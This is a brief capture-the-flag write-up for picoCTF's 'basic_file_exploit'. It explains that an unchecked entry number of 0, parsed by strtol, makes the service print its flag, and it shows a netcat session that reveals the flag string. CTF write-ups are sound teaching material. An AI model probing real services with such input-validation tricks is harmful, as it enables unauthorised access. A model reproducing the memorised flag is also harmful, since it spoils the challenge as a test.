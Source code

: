 # basic_file_exploit

This isn't a great challenge...

Read the `strtol` man page.

The `read_data()` function takes a number as input to retrieve a database entry.

If you pass 0 as the entry number, `strtol` will read the "0" string as the number
0 (`strtol` converts string to long) and print the flag...

```sh
❯ nc saturn.picoctf.net 52854
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
a1
Please enter your data:

1a

Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
0
0
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_E0394EC0}
```
